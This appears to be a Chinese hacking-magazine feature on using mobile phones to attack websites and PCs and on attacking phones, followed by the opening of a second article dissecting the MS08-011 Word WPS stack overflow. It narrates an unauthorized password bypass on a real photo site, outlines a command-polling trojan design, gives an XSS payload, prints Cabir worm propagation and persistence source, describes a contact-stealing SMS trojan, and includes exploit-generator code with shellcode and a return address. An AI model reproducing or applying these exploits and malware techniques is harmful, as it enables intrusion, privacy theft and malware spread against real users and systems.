CMNET提供了NAT服务，使用该服务的手机可以直接访问Internet。CMWAP只提供了WAP代理和HTTP代理，手机上网能访问的范围有限，接入时只能访问GPRS网络内IP为10.*.*.*的地址。因此CMWAP主要用于手机WAP上网，CMNET则是用于PC、笔记本电脑、PDA等设备实现GPRS上网。两者手机上网的方式没有差别，如此划分是中国移动对手机上网服务对象的定位不同，所以它们的应用范围和资费标准也不同。讲得细致一点，CMWAP只开放80、8080、9201端口，适合HTTP和WAP访问，其中10.0.0.172是其网关。起初这个网关是作为CSD方式的无线接入网关，那时使用的是9201端口，运行的是WAP（Wireless Application Protocol）专门的无线终端访问数据网络协议。它的作用其实更多的是作为Mobile Network和Internet之间的网关，将无线终端的WAP address请求递交给DNS解析，然后重定向至WAP站点。进入GPRS时代后，10.0.0.172开始作为proxy使用，开放了80端口，仍然承载WAP并开始提供更多的服务，例如MMS和HTTP。手机这时更像是局域网中使用proxy的Internet上网设备。CMNET可以把它想象成PC上的Internet直接连接。如果用CMNET接入点，可以直接上Internet。由此看来，无论使用哪一种接入方式，我们都可以使用手机与Internet交流。

现在我们有了必要条件，就要寻找入侵的目标了。对个人主机来讲很简单，可以通过Internet的访问来达到攻击目的；但是对于服务器，我们就要作一个区分了。因为CMWAP接入有一个明显区别于CMNET的地方，就是它主要支持的是WAP，而WAP（无线应用协议）使用一种类似于HTML的标记式语言WML，相当于HTML并可通过WAP Gateway直接访问特定的网页。这就意味着我们可以建造符合WML语言的网站服务器，以让手机访问，这就是我们俗称的“WAP网站”。

WAP网站的作用完全是为移动网络服务设计的。我们平时如果利用手机上过网，就会常听说移动梦网，它就是一个WAP型的网站。WAP网站与我们在计算机上访问的网站没有什么不同，主要是生成的网页文件符合了WML语言规则，这样手机上自带的浏览器就可以按照其进行解析。纯粹静态式的WAP型网站很少，为了扩充用户来源，现在大部分WAP型网站完全就是一个交互型的动态网站。常见的一些WAP论坛，包括WAP型的mud游戏，都是利用后台的PHP、ASP这样的动态语言来完成与用户的交互工作的。既然是这样，那是不是就意味着我们可以有机会入侵这样的网站呢？按照比尔的一句话来说：“不能相信来自用户的任何输入。”这句话我们可以这样理解：对于一个网站，只要有了用户输入的机会，就很可能带来被攻击、入侵、破坏的危险。这样的可能性是不是存在呢？为了证明这种入侵的可能性，我曾在2005年的时候就使用三星的一款手机做过测试，这里把当时的具体情况给大家说一下。

测试的起因是因为这个出名的WAP网站允许注册后的用户将自己的照片上传到一个类似个人相册的空间中，并与其他人分享，同时可以根据照片的内容来设置个人密码，这个密码可以供密友以及自己来访问一些特定的照片。我们姑且就称这个WAP网站为“Picke”，估计常用手机上网的朋友看到这个名字后就知道我说的是哪一个WAP网站了。无论是智能手机还是一般的普通手机，都有一个“标签”功能，这个标签其实就可以理解为一个手机版的超链接，三星手机也具有这样的功能。

我们通过设置标签的内容就可以指定想要访问的网站地址，上面的WAP网站的网址类似这样：wap.picke.com。设定好这个标签之后，我们就可以直接访问了。每当代表浏览器的一个小地球标志不转动时，我们就等于完全打开了一个网页，这时只要使用菜单中的“保存为标签”功能，就可以获得该网页的实际完整网址。为什么我要这样做？原因就是受朋友之托，他的一个朋友将一些比较隐私的照片传到了这个网站，并设置了访问密码。虽说有密码，但是朋友害怕这些照片会被其他人看见，所以想要删除它们；但是没有访问密码的话，就不可能访问，更别提删除了。通过我自己试验，这个网站是利用每一个注册用户的手机号为网站唯一标识，同时一旦注册以后，就不需要登录，直接可以访问网站，类似我们计算机上见到的保存cookie机制。这样看起来，如果想要删除那些照片，除非使用照片发布者的SIM卡或者手机号才行。情况是不是真的这么糟糕呢？我们理性地分析一下，如果说网站可以与SIM卡绑定，那么网站的技术就似乎太高了。为此，我换了一个手机SIM卡，然后登录该网站，只要输入注册时的一些信息，完全可以利用原始账号登录。同时我发现，只要在对带有访问密码的照片进行访问时，输入正确的访问密码，就可以获得删除照片的权力。这意味着我们现在的工作就是如何获得该照片的访问密码，免去了必须要获得照片拥有者手机号的麻烦。在访问带密码照片的时候，我利用“保存为书签”的功能获得了这个时候的网站完整地址，它的格式是这样的：wap.picke.com/pic.php?pass=&allow=0&id=18，非常有意思的一个地址。我们在入侵PHP型的Web应用程序时，有一种漏洞大家一定不会陌生，那就是通过修改全局变量来获得绕过安全限制。如果PHP程序允许全局变量，我们就可以在提交给程序的一些敏感变量上做手脚，或许就可以获得某些权限。回头看看上面的那个网址，除去pass这个变量，allow这个变量从字面意思上看就是一个“允许”的意思，难道这个变量代表着某些更深层次的意思？在“标签”里，我手工修改了allow变量，使得整个地址变为wap.picke.com/pic.php?pass=&allow=1&id=18，保存该标签，选择访问该标签，奇迹出现了，我们竟然直接进入了原先要密码的照片网页，同时还看到了一系列的管理选项，看来我们成功地绕过密码限制获得访问权限了。

上面的这个例子很简单。在后来对一个手机mud游戏网站作测试的时候，我发现了再熟悉不过的注入漏洞。虽说手机上的错误回显要比计算机上的不明显，但我们同样成功地使用注入方法修改了游戏的等级，甚至在最后获得了管理员权限。WAP网站尚且如此，那么基于net的网站就更不在话下了，因为它就是我们熟悉的Internet。如果你不相信，可以选择在计算机上使用Opera浏览器来访问一些WAP网站，因为Opera浏览器支持WAP，通过它可以测试WAP网站是否可以入侵，这样你就可以在手机上做这一切了。

如果前面我们说的这种手机入侵是可行的，我相信你还想更深一步地做入侵。就以我的想法来讲，用手机入侵服务器后，我可以通过一些方法来创建一个WebShell；如果是基于WAP的，那么就写一个符合WML语法显示的WebShell；而对于net的就完全可以直接访问了，这样就能更加获得控制服务器的机会。那么对于个人主机呢？我们平时在计算机上都是利用木马来控制的，这就是说，我们必须要在手机上编写一个程序来控制个人主机！

要想实现这个并不难，我们有很多办法可以实现。这里还是利用我测试过的一个例子来讲解一下可能性的实现。别的办法，我将放到文章最后与大家探讨。

思路很简单，就是在被控制的个人主机上安装一个木马程序，这个木马的作用就是不断地访问一个网址，类似http://www.blackunion.cn/mingling.txt。这个mingling.txt文件返回的是一组某一格式的命令字符。例如我们要想执行关机命令，那么mingling.txt返回的数据格式就是“shut”，这样一旦木马收到这个命令就会马上执行关机命令。再从手机这一端来说，我们需要做的就是通过CMWAP或者CMNET访问http://www.blackunion.cn/domingling.asp这个网址，当然不是单纯地访问这个网址，而是加上一个我们的命令，完整的地址是这样的：

http://www.blackunion.cn/domingling.asp?cmd=shut

这代表着我们想要执行的命令是“shut”，也就是关机命令。而domingling.asp这个文件就是一个中介，它的作用就是将我们从手机上提交的命令写入到mingling.txt文件中。整个控制的实现原理如图1所示。
图1

每一次命令执行后的结果都会使用最优化的方式返回给中转的网站，例如接收结果的文件为result.asp，该文件会将结果组织好，然后我们的手机就可以知道我们的控制结果了。使用这种方法，完全可以做成反弹式的木马，自动上线来被我们控制。

如果你想更加专业一点，你甚至可以自己编写一个程序专门用来做木马的控制端，把它安装在自己的手机上进行随时随地的入侵。还有就是能不能获得图像的控制权限，比如QQ那种远程协助。这也是可能的，不过就需要你的手机屏幕大一点，不然图像可能有点不清楚。

可以说利用手机控制计算机的实现方法还是完全可能的，深入一点讲，这种控制攻击完全可以理解为平台的移植，也就是从计算机平台转移到手机平台。手机的功能越强大，越容易被利用成为入侵工具。我说的那种方法也许要借助互联网的存在，但是我们可以通过别的办法再次获得控制计算机的机会，例如蓝牙，这种控制也许要比通过互联网控制计算机的速度快得多。

## 入侵手机

既然有了手机入侵，那么针对手机也自然会有入侵的可能，所以接着上面的话题，我们转而谈谈如何入侵手机。入侵手机的方法可谓十分多样，很多已经开始大量出现，但是究其类别只有3种：一种是对手机功能的破坏利用，一种是对其平台的利用，还有一种就是利用手机缺陷来入侵破坏。下面我们就这3种方式，分别来做一个简单探讨，不妥之处还望大家指点。

对于第一种类别——“对手机功能的破坏利用”，举个例子来说，我们常常在计算机上使用Windows系统，我们知道Windows提供了浏览器，也就是IE。IE是可以解析脚本语言的，它本来的功能就是帮助我们访问网页文件的，但是利用它解析脚本的功能，我们可以制造脚本炸弹来攻击它，而有时这种攻击甚至是可以影响到Windows系统死机。那么对于手机也是一样的，这里举个实际的测试例子。一直以来，自己总是在工作之余使用手机上网，虽然这部NOKIA N70不能与同事的多普达TC600相比较，但自己却非常喜欢。既然是使用手机上网，那流量可不是像有线网那样便宜的。为了节约流量，我上网使用的浏览器是UCweb，想必使用诺基亚的对此一定再熟悉不过了。这款浏览器是可以设置优化的，可以屏蔽掉图片，并且对网页内容进行排版组合，这样就会省去很大的流量开支了。同事的手机使用的系统是Windows Mobile，浏览器就是IE移动版了，这个IE初始状态不能作优化，于是同事的流量总是高于我的使用量，所以他登录一些论坛时总是使用无图版或者文字版。看着同事的痛苦，我决定给他安装UCweb。在做测试使用的时候，我忽然间蹦出一个想法：既然同事使用的浏览器是IE，那么一个网站要是存在跨站漏洞，那么他的手机会怎样显示呢？是不是也会“哐”的一声弹出一个大大的对话框，或者被我们截获Cookie信息呢？疑惑好奇使得我想测试一下，于是选择了一个动网8.0论坛，它存在XSS漏洞。

首先，在动网8.0论坛上随便找一块版面，选择“发表话题”，在“标题”一栏写入一个典型的XSS语句，点击发表后。现在注意，如果你使用动网默认的格式看你刚发的帖子，那是什么事情也不会有的，但是注意看论坛右上方有几个其他显示格式的选项，如图2所示。

```html
<script>alert('xss')</script>


```

注意图中圈圈的部分，Xhtml和Xslt这两个选项主要是起到一个简化版面效果的作用。只要论坛的网页代码符合Xhtml或者Xslt格式，就可以有针对性地将论坛页面简化成只有内容的显示格式。这对于那些使用手机或者网速较慢的朋友来说是一件好事情。
可是动网在做这一块的时候，却马马虎虎没有做任何代码过滤，将论坛中帖子的内容原原本本显示在优化后的网页中，如图3所示。
图中清晰地反映出我们的XSS跨站代码被执行了。既然这样，那就直接利用同事的手机来访问这个存在XSS漏洞的网页，而浏览器则选择自带的IE移动版。测试结果因为在手机上，我没有截图，但事实证明，IE移动版出现了一个脚本提示对话框，可以说我们的代码还是被正确执行了。那么接下来，我想到了利用这个测试结果能做些什么。其中之一就是我们还是可以使用传统的跨站方式，对手机用户的信息进行获取；而严重一点的利用方式，就是直接可以利用脚本漏洞，在一些大型手机网站上构造DOS代码，也就是利用脚本编写一些导致系统拒绝服务的代码，如常见的脚本死循环，一旦手机用户访问这些网站就会造成手机系统的崩溃。当然，关于这一点还得要斟酌，因为一些手机系统的处理异常现象的能力还是不错的，它会将浏览器关闭，因为没有足够的内存供它分配。既然浏览器被系统强制关闭了，那这不也是对手机系统功能的一个破坏吗？这个例子告诉我们，对于手机功能性破坏的攻击还是可以实现的，只要我们有思路，构造这种攻击入侵就再简单不过了。

第二种入侵方式，是对手机平台的利用。这很好理解，Windows 下的病毒很多，就是因为 Windows 本身可以执行一些文件，如 exe 格式的。那么手机上也是一样的，我曾经在 Windows Mobile 下做了一点开发，发现编写一个手机病毒并不是很难。再以诺基亚的手机平台 Symbian 来讲，2000 年 6 月，西班牙发现第一份具备手机病毒特性的恶意代码，被命名为“VBS.Timofonica”，这段代码会通过移动系统向其他用户发送侮辱短信；2004 年 6 月，29A 成员发布的首例概念性手机病毒 Worm.SymbOS.Cabir.a，该病毒通过蓝牙传播。随后基于 Cabir.a 改造的大量变种出现，越来越具备危害性。为了能给大家更多关于手机病毒的知识，我这里简单地对 Symbian 平台下的手机病毒作一分析说明，仅供学习。

Symbian 是 1998 年一个总部位于伦敦的公司开发的智能手机平台，主要使用者是诺基亚、索爱、爱立信等公司。它是一个非常出色的实时性、多任务的纯 32 位操作系统，是一个标准化的开放式平台。Nokia Series 60 是智能手机中应用最广泛的系统之一，拥有很多第三方软件或游戏。在此平台下开发的病毒大多是 OO 模式的，也就是面向对象的程序。我们先来看看 Symbian 系统下的可执行文件格式有哪些，其中 app、exe、mdl 都为可执行应用程序，dll 为动态链接库文件，sis 为应用程序安装包，jar 为 j2me 应用程序包。Symbian 平台的可执行文件格式为 E32 格式，该文件格式类似我们熟悉的微软 PE 文件格式，但与 PE 格式有一些不同，如图 4 所示。
图 4

其中 Code 段包括源代码的 OBJ（Text Section）和导入导出函数表。BSS 段包括没有初始化的数据。Data 段包括初始化的数据。Import 段包含程序用到的导入函数相关信息。Relocation 段是一个重定位表。也就是说只要我们编写出来的程序符合 E32 文件格式，那么对于 Symbian 系统来说，它就是一个可执行的文件。所以我们可以使用汇编语言来完成病毒的开发，但也不必如此麻烦，使用 Symbian 的 C++ 语言就可以成功编写出一个病毒。我们现在可以看看这种语言的格式，就拿前面说过的 Cabir 病毒源代码来做分析。

```cpp
int CaribeBluetooth::FindDevices()
{
    _LIT(KL2Cap, "BTLinkManager");
    int res;
    if((res = socketServ.Connect()) != KErrNone) {
        return 0;
    }
    if((res = socketServ.FindProtocol((const TProtocolName&)KL2Cap, pInfo)) != KErrNone) {
        socketServ.Close();
        return 0;
    }
    if((res = lr.Open(socketServ, pInfo.iAddrFamily, pInfo.iProtocol)) != KErrNone) {
        socketServ.Close();
        return 0;
    }
    WithAddress = 0;
    addr.SetIAC(KGIAC);
    addr.SetAction(KHostResInquiry);
    TRequestStatus iStatusIn;
    hr.GetByAddress(addr, entry, iStatusIn);
    User::WaitForRequest(iStatusIn);
    if(iStatusIn != KErrNone) {
        // ErrMessage("Error Finding Devices")
    } else {
        WithAddress = 1;
    }
    socketServ.Close();
    return 0;
}
```

上面的这段代码是病毒的一个关键功能实现，从类名看“CaribeBluetooth”，代表着 Cabir 病毒是通过蓝牙通信进行传播的。之所以使用这种方式，我想这只是作者为了演示病毒体的存在，而没有选择使用其他诸如 MMS 这种费钱的方式来传播病毒。从函数名称看，这是一个查找设备的函数，其作用就是查找周边的蓝牙设备。Cabir 病毒使用的方式是利用了 RHost Resolver 类，这是一个专门用来查找蓝牙设备的类，利用这个类，可以在程序中获得可通信的蓝牙设备列表，而不需要用户的任何介入，不然的话，就会不断地出现蓝牙设备选择提示对话框，这就会在手机上暴露病毒的存在。找到周边存在的蓝牙设备之后，就是要准备连接该设备了，我们再来看看这段代码的实现。

Client 这类就会负责直接连接目标蓝牙设备。连接了蓝牙设备之后，CObexClient 类中的函数被回调，病毒的工作只要将这些回调函数继承后实现，就可以实现将自己复制传递过去，进行病毒传播感染。传播工作完成了，还需要一个特定的工作。我们如果编写过计算机上的简单病毒就会知道，为了让病毒运行，我们一般采用的方法就是使用自启动的方式，也就是利用系统的自启动功能。对于 Windows 来说，最简单的方法就是将病毒文件体放到类似“C:\Documents and Settings\XXX\「开始」菜单\程序\启动”这样的文件夹下，系统一旦启动就会执行该文件夹下的任意可执行文件。在 Symbian 系统下，这样的自启动式文件夹也是存在的，Cabir 病毒就是利用了这样的文件夹实现了自身随系统启动的功能。我们来看看这段代码的实现。

```cpp
int CaribeBluetooth::ManageFoundDevices()
{
    if(WithAddress)
    {
        WithAddress = 0;
        Cancel();
        TBTSockAddr btaddr(entry().iAddr);
        TBTDevAddr devAddr;
        devAddr = btaddr.BTAddr();
        TObexBluetoothProtocolInfo obexBTProtoInfo;
        obexBTProtoInfo.iTransport.Copy(_L("RFCOMM"));
        obexBTProtoInfo.iAddr.SetBTAddr(devAddr);
        obexBTProtoInfo.iAddr.SetPort(0x00000009);
        obexClient = CObexClient::NewL(obexBTProtoInfo);
        if(obexClient)
        {
            iState = 1;
            iStatus = KRequestPending;
            Cancel();
            obexClient->Connect(iStatus);
            SetActive();
        }
        else
        {
            iState = 3;
            User::After(1000000);
        }
    }
    return 0;
}
```

```cpp
void CaribeInstaller::CopyMeToAutostartableDir(CAknApplication* OwnApp)
{
    TFileName OwnDllName = OwnApp->DllName();
    TBuf16<sizeof(AUTOSTARTABLE)> Autostartable(Autostartablestr);
    OwnDllName.UpperCase();
    if(OwnDllName == Autostartable)
        return;

    RFs fs; User::LeaveIfError(fs.Connect());
    TBuf16<sizeof(AUTOSTARTABLEPATH)> autostartablepath(Autostartablepathstr);
    fs.MkDirAll(Autostartablepathstr);
    if(BaflUtils::CopyFile(fs,OwnDllName,Autostartable,CFileMan::EOverWrite)!=KErrNone)
    {
        fs.Close();
        return;
    }

    TBuf16<sizeof(AUTOSTARTABLERSC)> Autostartablersc(Autostartablerscstr);
    OwnDllName[OwnDllName.Length()-3] = 'R';
    OwnDllName[OwnDllName.Length()-2] = 'S';
    OwnDllName[OwnDllName.Length()-1] = 'C';
    if(BaflUtils::CopyFile(fs,OwnDllName,Autostartablersc,CFileMan::EOverWrite)!=KErrNone)
    {
        BaflUtils::DeleteFile(fs,Autostartable,0);
    }
    fs.Close();
    return;
}
```

# 特别策划

**SPECIAL SUBJECT**

栏目编辑：刘流（liuliu@hacker.com.cn）

我简单地说一下这段代码的实现过程。在找到蓝牙设备之后，函数会将目标蓝牙设备的信息填入到一个 TObexBluetoothProtocolInfo 结构中，也就是我们看到的 obexBTProtoInfo，它包含了目标设备的一切信息，然后只要将它传递给 CObexClient，就会负责直接连接目标蓝牙设备。

非常简单的一段代码，就是利用了文件类的 CopyFile 函数将自身拷贝到系统启动文件夹下。而这个文件夹是什么呢？在病毒代码的首部，我们看到了这些代码。

```c
#define AUTOSTARTABLERSC "C:\\SYSTEM\\SYMBIANSECUREDATA\\CARIBESECURITYMANAGER\\CARIBE.RSC"
_LIT(Autostartablerscstr, "C:\\SYSTEM\\SYMBIANSECUREDATA\\CARIBESECURITYMANAGER\\CARIBE.RSC");

#define AUTOSTARTABLEPATH "C:\\SYSTEM\\SYMBIANSECUREDATA\\CARIBESECURITYMANAGER\\"


```

这些宏定义代表的意思就是定义了自启动文件夹的位置，同时也设定了 Cabir 病毒在这些自启动文件夹里的文件名称。其中“AUTOSTARTABLEPATH”定义了在系统自启动文件夹“C:\\SYSTEM\\SYMBIANSECUREDATA”下设置一个属于病毒自己的文件夹，名称保持与病毒体一样，叫做“CARIBESECURITYMANAGER”。在接下来的工作中，病毒可以创建关于自身的 sis 安装包文件，也就是说可以通过蓝牙发送该安装包，手机用户一旦接受该安装包执行安装之后就会激活病毒体，病毒再将自己复制进系统自启动文件夹，实现每一次跟随手机系统启动、查找蓝牙设备再感染的目的。

综合来看，Cabir 病毒完全是一个概念性病毒，29A 组织的成员手下留情，没有扩大其破坏功能，但在后来的演变中，这个病毒的破坏能力得到了惊人的提高。这也给了我们一个信号：手机中存在病毒是可能的，存在木马也是可能的。根据最简单的原理，我编写了一个盗取用户电话簿信息、通过短信发送到指定用户手机号的木马，这里也简单地作一个描述。

在 Symbian OS 中，电话簿部分是通过一个默认的数据库（contacts.cdb）来操作和管理的。因此在 Symbian 系统里可以用联系人模型（Contacts Model）API 来访问和管理电话簿，这里主要用的类就是：

- CContactDatabase（数据库类，电话簿所有条目的集合）
- CContactItem（它代表一个单独的电话簿条目，由唯一的一个 TContactItemId 标识，例如电话簿中的一个联系人）
- CContactItemField（域类，每一个电话簿条目由很多域组成，例如姓名域（EPbkFieldIdFirstName，EPbkFieldIdLastName）、电话号码域（EPbkFieldIdPhoneNumberGeneral）等）

而 Series60 开发者则扩展了这一模型，使用“电话簿引擎”。在电话簿引擎中，有 3 个类可以帮助我们实现获取电话簿内容：

- 类 CPbkContactEngine。电话簿引擎通过 CPbkContactEngine 来实现。如果已经存在一个缺省数据库，CPbkContactEngine::NewL() 就连接到该数据库，否则创建该数据库。
- 类 CPbkContactItem。代表电话簿数据库中的一个具体条目，例如一个联系人。它提供了对所拥有的 TPbkContactItemField 数组的访问和查找函数。
- 类 TPbkContactItemField。是某个电话簿条目的域类，例如某人的电话域，或者某人的电子邮件。

有了这 3 个类的帮助，我们可以十分方便地读取到电话簿的具体内容。

有了电话簿的内容，我们接下来的工作就是要将这些敏感信息利用短信的方式发送出去。那么如何发送短信呢？

短信就是我们常常用来联系异地朋友的方法，全名为 SMS，它允许移动用户之间可以传递文本或者数字，这个功能对我们来说已经足够，因为我们需要的用户数据就是电话簿的内容，这些内容符合纯文本形式。要想在 Symbian 系统下实现短信的发送，可以选择使用 SendAs 类来实现。

首先，我们需要选择一个 MTM，也就是消息类型模块，它是可以为每一个消息协议定义组件接口来支持特定的消息类型。我们要想发送短信，就必须先设置好 MTM，这里 SetMtmL 函数用来完成 MTM 的选择。接下来，我们就是要为选择好的 MTM 设置一个服务，由函数 SetService 来进行设置。然后就可以创建消息的内容了。函数 CreateMessageL（TMsvId index）可以设定消息的内容。这里我们只需要一些简单的代码就可以将我们前面获得的电话簿内容放入到短消息内容中去。最后，我们只需要再简单地使用 SaveMessageL 函数就可以将短消息发送出去了。

通过前面的一段描述，我们看到编写一个带有入侵手机、盗窃手机用户个人隐私的木马程序还是比较容易实现的。Windows Mobile 下的病毒、木马程序是不是一样好写，答案是肯定的。你可以通过安装 VS2005 来做一个编写简单手机病毒木马的尝试，这一方面的例子还是比较多的，不明白之处你可以找我。

看到这里，如果你稍加细心就会发现，我们谈到的这些病毒、木马好像都是存在于智能手机平台上的，那么传统的非智能手机是不是就不受病毒和木马的影响了呢？很可惜，我们还有机会可以入侵非智能的手机平台。有两个突破点，第一个方法是利用一般非智能手机对 Java 的支持，我们照样可以编写手机版的病毒木马。还有一种方法就是利用复制机的方法，将代码注入到系统本身，这样就成了一种类似手机 Rootkit 的程序，更加难以清除。其带来的安全隐患更加可怕，对于个人而言就无任何秘密可言了。

利用手机平台进行入侵先说这么多，我们紧接着来看看如何利用手机缺陷来进行入侵破坏。一写到这个入侵分类，我的脑海就想起了我在大学中使用的那部西门子手机，西门子 3568i。这部手机按照我当时的想法是性价比不错的一款手机，那时的我，用手机的主要目的也就是打电话、发短信，没想着什么别的功能，就这样一天天使用着。突然有一天，我的手机开始变得老是死机，并且每次出现这个现象总是因为打开短信的时候就死机。我觉察到这肯定不是像同学说的“这是很正常的事情”。在几天后的上网时，我查询了一下这部西门子手机死机的原因，竟然意外地发现原来西门子 3568i 型号的手机在处理短信消息上存在一个缺陷，当收到存在特殊代码的短信时，手机的短信处理程序会解析不正常，而最直接的表现就是导致手机死机。这个例子告诉我们，手机程序一旦出现缺陷将对手机使用者造成很大影响；如果造成用户关键数据丢失，那手机开发商的责任可就重大了。

再进一步说，手机上存不存在我们常见的那些计算机软件漏洞呢？例如缓冲区溢出漏洞。光从溢出角度来讲，手机软件包括系统平台绝对存在溢出现象，但是能不能像计算机上那样被利用，这就是一个挑战了。对于智能手机平台，其系统本身具有异常处理机制，也会像 Windows 那样对出错的程序进行强制关闭，而要利用就显得比较难了。但是我们也知道，Windows CE 平台就存在溢出的利用，对于我们现在手机的平台做溢出，这也是值得研究的一个领域。

由上面的一系列分析我们可以看出，入侵手机也是一个比较可行的攻击方向。现在安全领域不单纯指计算机、互联网，当手机这样的微型终端设备接入网络时，其本身也就成为了木桶原理中的一片木板，更何况手机利用的是无线网络，这更加重了手机安全性的要求。

## 后记

零零碎碎地与大家探讨了利用手机入侵计算机网络的可行性与实际操作，这应该是好理解的，因为只要能接入互联网，那么都存在可以被利用来入侵普通计算机的可能。而后面我们又谈到了手机本身被入侵的存在性；从攻击的主动方变到被攻击一方，手机扮演的是一个双重角色。发散开去，在以后的世界中，可以接入计算机网络的不仅仅是手机，还有现在的 Pocket PC、将来的网络化家电设备，这些都可以成为入侵、被入侵的角色，安全体系的范围被瞬间扩大。这里我还要强调一个概念，那就是“手机 Rootkit”，这是一个可以去探讨发展的安全领域，我在这里面已经做了一些研究，在今后的文章中，我将找机会与大家分享。

在文中我只是谈及了手机攻击计算机以及计算机网络的方法，其实只要方法正确，我们甚至可以直接利用手机来控制手机，主要的思路是利用一些提供服务的 WAP 网站，这些网站的某些功能可以直接与用户的手机发生作用，最简单的例子就是发送短信。利用这些功能我们就可以间接地控制其他手机。还有一种与控制计算机的方法一样，就是通过安装某些程序来达到远程操控的目的，但是这时就不限于使用互联网了，蓝牙、红外甚至是 MMS 都可以被利用。由于这个内容可以说既属于“手机入侵”，又属于……

出现过类似西门子手机由短信功能缺陷造成手机拒绝服务的例子，还不仅仅就西门子一家，还有的手机出现过拨打某一个号码的时候会出现直接关机的现象，而有的则是播放一些格式的音乐，甚至是查看彩信时发生死机现象。这些缺陷其实也很好理解，除去手机软件开发者人为造成的失误，还有就是手机软件功能上的不完善以及不可靠。这些都可以被利用来进行对用户手机的攻击破坏。

“入侵手机”，所以我单独把它放到最后来讲。这些方法也同样可以扩展到手机控制计算机。翻阅互联网上的资料，我们可以看到关于手机版本的杀毒软件早已出现，无论是卡巴斯基，还是瑞星；包括国内的网秦杀毒软件都涉及到了手机安全这个领域。从简单的分析来看，这些杀毒软件采用的机制还是一种静态性的特征提取查杀方法，这也是一种最容易实现的病毒查杀方法。还可不可以再提高一步，我相信是可以的。病毒和木马程序已经先行一步地进入了移动领域，我们的防护技术才跟上，这也不得不令我们思考。现在，我们常常听说的手机丢了可以找回的办法，其实或多或少跟我们说的木马程序类似，不过其程序也许是固化在了手机芯片里面，但其实现原理是一样的，就是一种间接的远程控制，把手机使用者的隐私信息返回，同时告诉手机在何处，方便丢失者寻回。最后，虽然这篇文章写得比较长，但是许多地方也没有很好地描述清楚，移动安全是一个很大的面，愚钝的我很难给大家说仔细，还望大家见谅。有什么疑问，欢迎来黑防论坛与我讨论。

适合读者：入侵爱好者；溢出爱好者  
前置知识：汇编语言、缓冲区溢出基本原理

## MS08-011 Office WPS文件转换
### 挖掘出漏洞，分析与利用
文／图 张东辉[shineast] 刘英

又见文件格式漏洞！分析这种漏洞，首先得从文件格式入手。看到WPS大家是否想到了金山WPS（Word Process System）Office软件，其实WPS是Microsoft早期文字处理方面的一种文件格式，现在已经基本被淘汰了，取而代之的是大家熟知的DOC文件。尽管如此，这种WPS文件格式规范却是私有的，没有被公布。我们能知道的只是这种文件的头9个字节是“D0 CF 11 E0 A1 B1 1A E1 00”，作为该文件格式的识别码，其他字节的含义就很难猜测了！虽然这种文件格式是被淘汰的，但是Microsoft Office系列软件依然能够适当地兼容它；例如用Word打开一个WPS文件的时候，Word会自动通过转换器来转换WPS文件为RTF文件。事实上，本文提到的漏洞就是Word在转换WPS文件时出现的栈溢出漏洞。2008年2月13号，微软公布该漏洞公告的当天，chujwmawdupe就在milw0rm上爆出了exploit，真是火速啊！不知道是不是通过补丁比较（bindiff）后发现的，反正通过微软的漏洞描述是很难构造和利用该漏洞的exploit的。

## 漏洞分析

由于WPS文件格式没有被公布，本人也知之甚少，因此本次漏洞分析主要从POC源码分析和对exploit的跟踪调试这两方面入手，目标还是找到漏洞发生点和漏洞的根本原因。另外需要声明的是，受本漏洞影响的有Microsoft Office 2003 SP3/SP2、Microsoft Works Suite 2005和Microsoft Works 8.0。这里我们选择Microsoft Office 2003 SP3来做测试，分析这个漏洞。

该漏洞的POC源码如下，其中要生成的WPS文件头内容很长，我略去了一部分，需要仔细研究的朋友可以查阅随文提供的POC源码。

```c
#include <stdio.h>
#include <windows.h>
/* WPS Header */
unsigned char uszWpsHeader[] =
"\xd0\xcf\x11\xe0\xa1\xb1\x1a\xe1\x00\x00\x00\x00..."
"...略..."
/* Shellcode - metasploit exec calc.exe */
unsigned char uszShellcode[] =
"\x90\x90\x90..."
"\xeb\x03\x59\xeb\x05\xe8\xf8\xff\xff\xff...";
char szIntro[] =
"\n\t\tMicrosoft Office .WPS Stack Overflow\n"
"[+] Targets:\n";
```

```c
"\n\t(1) Windows XP SP2 ntdll.dll cn\n"
"Usage: wps.exe <target> <file>";

typedef struct {
  const char *szTarget;
  unsigned char uszRet[5];
} TARGET;

TARGET targets[] = {
  { "Windows XP SP2 cn & tw ntdll.dll", "\xED\x1E\x96\x7C" }
};

int main(int argc, char **argv){
  char szBuffer[1024*10];
  FILE *f;
  if (argc < 3) {
    printf("%s\n", szIntro);
    return 0;
  }

  memset(szBuffer, 0x90, 1024*10);
  printf("[+] Creating WPS header...\n");
  memcpy(szBuffer, uszWpsHeader, sizeof(uszWpsHeader)-1);
  printf("[+] Copying addr && nops && shellcode...\n");
  memcpy(szBuffer + sizeof(uszWpsHeader)-1,
         targets[atoi(argv[1])-1].uszRet, 4);
  memcpy(szBuffer + sizeof(uszWpsHeader)+3,
         uszShellcode, sizeof(uszShellcode)-1);

  f = fopen(argv[2], "wb");
  if (f == NULL) {
    printf("[-] Cannot create file\n");
    return 0;
  }

  fwrite(szBuffer, 1, sizeof(szBuffer), f);
  fclose(f);
  printf("[+] WPS file successfully created\n");
  return 0;
}


```

以上代码很容易理解，主要作用就是生成一个WPS文件，该文件由3部分组成，首先是一段事先准备好的文件头，其次是ntdll中的jmp esp跳转指令地址，最后是一段ShellCode。值得一提的是，这段ShellCode是Alpha2编码的，即由纯字母+数字组成，能弹出一个计算器，也不算很大，读者可以将其收藏了。总而言之，生成的WPS文件=header+jmp esp+ShellCode。

下面我们来跟踪调试Word，并用Word打开上面生成的WPS文件。通过调试跟踪，最终找到程序的溢出点和漏洞发生的根本原因。

在调试之前，我们首先要考虑一个问题，就是如果直接调试上面生成的文件，而且没有下断点的话，在调试的时候一个F9就直接会看到计算器了，也就是说根本没法看到溢出点。因此如何下断点、下在哪里是一个问题。我的办法是这样的，就是将上面生成WPS文件的代码中的jmp esp地址改成一个非法的内存地址，例如0xFFFFFFFF，这样在调试的时候就会自然停下来。停下来的时刻正好是溢出刚刚发生后的一个时刻，这样我们就有机会从栈中摸索着迅速找到溢出之前的一个被调用的函数地址，从这个函数开始微调，最终找到溢出点，探寻漏洞的根本原因。下面我们一同来完成上述的过程。

用OllyDBG打开Word，然后把上面生成WPS文件拖入Word，你会发现OllyDBG最终显示出如图1所示的结果。
图1 通过修改jmp esp地址为0xFFFFFFFF断下Word

这时，虽然断下了Word，但是溢出已经发生过了，不过没有关系，我们可以从栈中找到一些线索，或者蛛丝马迹。将栈向上翻，可以看到如图2所示的一个曾被调用的函数返回地址。

